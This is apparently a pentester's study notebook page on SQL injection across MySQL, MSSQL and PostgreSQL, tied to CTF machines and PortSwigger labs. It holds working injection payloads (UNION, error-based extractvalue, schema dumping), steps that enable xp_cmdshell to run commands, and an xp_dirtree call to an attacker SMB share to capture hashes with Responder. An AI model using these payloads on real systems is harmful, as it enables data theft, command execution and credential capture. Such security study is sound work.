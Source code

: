 # SQLi

## MySQL/MariaDB (3306)

{% embed url="https://github.com/codingo/OSCP-2/blob/master/Documents/SQL%20Injection%20Cheatsheet.md" %}

{% embed url="https://github.com/oncybersec/time-blind-sqli/tree/main" %}
Time-based SQLI, if boolean and error fail
{% endembed %}

Lock in w me twin

```bash
mysql -h [IP] -u [username] -p
```

{% code title="Info Dumping" %}
```sql
SELECT DISTINCT(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 0,1
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='[db]' LIMIT 0,1
SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='[db]' and table_name='[table]' LIMIT 0,1
```
{% endcode %}

```sql
man' UNION select 1,@@version,3,4,5,6;-- - [assuming column 3 content gets diplayed on webpage]
1' order by <number> --It will order by column number specified, only return error when that column number does not exist
--Need to figure out data type used by each column to know where to inject
```

### Error Based&#x20;

{% hint style="info" %}
Refer Monitored \[Medium]
{% endhint %}

Aim to induce an error, not a successful query, info will be returned in error message

```sql
id=1 AND extractvalue(1,version())
id=1 AND extractvalue(1,concat(0x0a, (SELECT * from [db] where table_name='[table]' limit 0,1)))
group_concat([colname]) will return all rows of an attribute in one query
```

### Blind Boolean/Error

{% hint style="info" %}
Refer Soccer \[Easy]
{% endhint %}

Get the SQLi payload on point and start fuzzing based on response code / error, refer scripts for more info

### UDF (User Defined Function)

SQLI -> execute commands within SQL command, transfer and use a reverse shell

{% embed url="https://sudsy-fireplace-912.notion.site/Pebbles-from-Proving-Grounds-without-SQLMap-by-Luis-Moret-lainkusanagi-23b29df77e6946a6bb8cb213a76a9ac8" %}

{% embed url="https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf" %}

{% embed url="https://r3dbuck3t.notion.site/MySQL-UDF-functions-3542db4a45ba4b7ea9b946098f9f80a3" %}

### Rana's Playlist (PortSwigger)

{% embed url="https://www.youtube.com/playlist?list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf" %}
Walkthroughs of all PortSwigger SQLi labs
{% endembed %}

#### Lab 4

For UNION attacks to work, the number of columns selected must be the same as original query and the data type used as well eg. if second column of original query uses text your UNION second column must do the same.

`GIfts' order by 4—` (order by also helps determine number of columns apart from the NULL method, whichever number used that columns is used for grouping as seen)

#### Lab 6 (Multiple attributes in single column)

select concat(user, ':', password) from users--\
select user || ':' || password from users--

Both do the same thing (incase of keyword filters)

#### Lab 11 (Blind w conditional responses)

Burp intruder clusterbomb allocates diff payload sets to diff payload positions and performs all combinations exactly what we need (ASCII of all values and numbers to iterate positions)

#### Lab 12

I didnt understand lmao

#### Lab 15 & 16&#x20;

wtf is out of band interaction fr

### Natas&#x20;

#### Labs 14, 15 and 17 watch&#x20;

{% embed url="https://youtu.be/jBhYI8Zna0w" %}

## MSSQL (1433)

{% hint style="info" %}
Refer StreamIO \[Medium]
{% endhint %}

```
.\SQLCMD.EXE -S localhost -U [user] -P [password] -d [database] -Q "select table_name from streamio_backup.information_schema.tables;"

python3 mssqlclient.py [-port {opt}] [domain]/[user]:[password]@[dc] {-windows-auth}
enable_xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';

sudo responder -I tun0
EXEC master.sys.xp_dirtree '\\10.10.14.9\myshare',1, 1
```

## PostgreSQL (5432)

```
psql -h localhost -p 5432 -U [user] -d [database]
\list
\c [dbname]
\dt
\d [table] (listing schema for table users)
select * from [table];
```
